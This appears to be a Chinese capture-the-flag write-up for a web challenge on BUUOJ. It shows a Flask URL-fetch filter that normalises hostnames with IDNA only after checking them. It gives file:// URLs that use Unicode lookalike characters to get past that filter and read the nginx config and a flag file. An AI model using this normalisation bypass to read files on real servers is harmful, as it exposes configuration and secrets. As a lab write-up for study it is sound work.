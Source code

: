 ![](<./img/Pasted image 20221218131056.png>)

---
首页长这样

![](<./img/Pasted image 20221218140730.png>)

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
    <form method="GET" action="[getUrl](view-source:http://8ff217ff-a7da-485a-a779-5fc0748bcc96.node4.buuoj.cn:81/getUrl)">
        URL:<input type="text" name="url"/>
        <input type="submit" value="Submit"/>
    </form>

    <code>
        
        @app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
    </code>
    <!-- Dont worry about the suctf.cc. Go on! -->
    <!-- Do you know the nginx? -->
</body>
</html>
```
字符是好东西（喜

上[数学字母数字符号](https://zh.wikipedia.org/zh-hans/%E6%95%B0%E5%AD%A6%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97%E7%AC%A6%E5%8F%B7)，更有多种变体任您选择

```python
url='http://𝓼𝓾𝓬𝓽𝓯.𝓬𝓬'
```

![](<./img/Pasted image 20221218142130.png>)

标题和注释明示我们和`nginx`有关，尝试访问`/usr/local/nginx/conf/nginx.conf`
```python
url='file://𝓼𝓾𝓬𝓽𝓯.𝓬𝓬/usr/local/nginx/conf/nginx.conf'
```

```nginx
server {
    listen 80;
    location / {
        try_files $uri @app;
    }
    location @app {
        include uwsgi_params;
        uwsgi_pass unix:///tmp/uwsgi.sock;
    }
    location /static {
        alias /app/static;
    }
    # location /flag {
    #     alias /usr/fffffflag;
    # }
}
```

```python
url='file://𝓼𝓾𝓬𝓽𝓯.𝓬𝓬/usr/fffffflag'
```

![](<./img/Pasted image 20221218144842.png>)

#Web #python #nginx #字符 